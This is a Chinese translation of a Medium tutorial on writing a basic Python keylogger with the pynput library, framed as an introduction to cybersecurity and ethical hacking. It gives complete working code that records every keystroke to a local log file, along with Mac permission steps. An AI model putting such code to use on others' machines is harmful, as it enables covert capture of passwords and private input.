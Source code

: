 # Python 键盘记录器教程

> 原文：<https://medium.com/analytics-vidhya/python-keylogger-tutorial-ef178d02f24a?source=collection_archive---------1----------------------->

![](img/b53830e8f8353154f5bb4b3897b46955.png)

在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上由 [Courtney Corlew](https://unsplash.com/@courtneycorlew?utm_source=medium&utm_medium=referral) 拍摄的照片

**嘿！怎么了？**

希望你一切都好。在本文中，您将学习如何用 Python 编写一个基本的键盘记录程序。

# 什么是键盘记录器？

键盘记录器是一种监控软件，用于记录用户的击键操作。最古老的网络威胁形式之一，这些击键记录者记录你在网站或应用程序中键入的信息，并将其发送回第三方！

# 辅导的

为了创建一个键盘记录器，我们将使用 **pynput** 模块。由于它不是 python 的标准库，您可能需要安装它。

```
pip install pynput
```

现在导入所需的包和方法。为了监视键盘，我们将使用 pynput.keyboard 模块的 listener 方法。

```
from pynput.keyboard import Listener
```

然后我们创建函数 log_keystroke()，该函数创建按键的定义，将按键作为参数，并将其存储在一个文本文件中。

但是我们首先将密钥转换成一个字符串，并删除所有的单引号，以便我们更容易阅读日志文件。

此外，当使用 shift 键时，我们会遇到“Key.space”和“Key.enter ”,而不是实际的空格和自动下一行 shift 和“Key.shift_r”。我们也会事先处理好。

```
def log_keystroke(key):
    key = str(key).replace("'", "")

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'

    with open("log.txt", 'a') as f:
        f.write(key)
```

我们要做的最后一件事是设置一个 Listener 实例，并在其中定义 log _ keystroke 方法，然后将该实例加入主线程。

```
with Listener(on_press=log_keystroke) as l:
    l.join()
```

通过组合上述步骤，我们可以组合出完整的程序:

```
from pynput.keyboard import Listener

def log_keystroke(key):
    key = str(key).replace("'", "")

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'

    with open("log.txt", 'a') as f:
        f.write(key)

with Listener(on_press=log_keystroke) as l:
    l.join()
```

为了测试，让程序在后台运行，打开谷歌搜索一些东西。现在，打开你的 log.txt 文件，瞧，你可以看到你的每一个击键记录和存储在文件中。

# MAC 的权限

对于 Windows 来说，这个程序应该非常好用。但如果你是 Mac 用户——进入“设置”>“安全与隐私”>“隐私”>“输入监控”,勾选你正在使用的终端或 IDE 前面的复选框。

![](img/56bb8707c1467793b2d2eae718302bef.png)

感谢你阅读我的第一篇博文，希望你能学到一些新东西。更多关于网络安全和道德黑客的文章和文章即将发表。

回头见！

> 支持我[https://www.buymeacoffee.com/djrobin17](https://www.buymeacoffee.com/djrobin17)